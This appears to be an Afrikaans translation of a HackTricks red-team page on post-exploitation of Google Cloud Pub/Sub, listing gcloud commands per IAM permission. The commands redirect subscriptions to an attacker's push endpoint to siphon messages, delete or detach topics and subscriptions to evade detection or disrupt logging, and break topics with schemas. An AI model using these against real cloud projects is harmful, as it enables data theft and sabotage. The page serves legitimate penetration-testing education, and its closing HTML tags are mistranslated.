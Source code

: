 # GCP - Pub/Sub Na-Exploitasie

<details>

<summary><strong>Leer AWS hakwerk vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Pub/Sub

Vir meer inligting oor Pub/Sub, kyk na die volgende bladsy:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publiseer 'n boodskap in 'n onderwerp, nuttig om **onverwagte data te stuur** en onverwagte funksionaliteit te aktiveer of kwesbaarhede te benut:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Nuttig om te voorkom dat 'n intekening boodskappe ontvang, miskien om opsporing te vermy.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Nuttig om te voorkom dat 'n intekening boodskappe ontvang, miskien om opsporing te vermy. Dit is moontlik om 'n onderwerp te verwyder selfs as daar intekening daarby gevoeg is.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Gebruik hierdie toestemming om sekere instellings van die onderwerp te werk, soos `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Gee jouself toestemming om enige van die vorige aanvalle uit te voer.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Kry al die boodskappe in 'n webbediener:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Skep 'n intekening en gebruik dit om **boodskappe te trek**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Verwyder 'n intekening** kan nuttig wees om 'n logverwerkingstelsel of iets soortgelyks te ontwrig:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Gebruik hierdie toestemming om sekere instellings by te werk sodat boodskappe gestoor word op 'n plek waar jy dit kan bereik (URL, Big Query-tabel, Emmertjie) of net om dit te ontwrig.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Gee jouself die regte om enige van die vorige gekommentaar aanvalle uit te voer.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Val 'n skema aan 'n onderwerp aan sodat die boodskappe dit nie nakom nie en dus die onderwerp ontwrig word.\
As daar geen skemas is nie, moet jy dalk een skep.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Dit mag lyk asof deur 'n skema te verwyder, jy in staat sal wees om boodskappe te stuur wat nie aan die skema voldoen nie. Tog, aangesien die skema verwyder sal word, sal geen boodskap werklik binne die onderwerp binnekom nie. So dit is **NUTTELOOS**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Gee jouself die regte om die nodige toestemmings te hê om enige van die vorige gekommentarieerde aanvalle uit te voer.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Dit sal 'n oomblikopname van al die onbevestigde boodskappe skep en hulle terugplaas na die intekening. Nie baie nuttig vir 'n aanvaller nie, maar hier is dit:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<besonderhede>

<opsomming><sterk>Leer AWS hak vanaf nul tot held met</sterk> <a href="https://training.hacktricks.xyz/courses/arte"><sterk>htARTE (HackTricks AWS Red Team Expert)</sterk></a><sterk>!</sterk></opsomming>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</besonderhede>
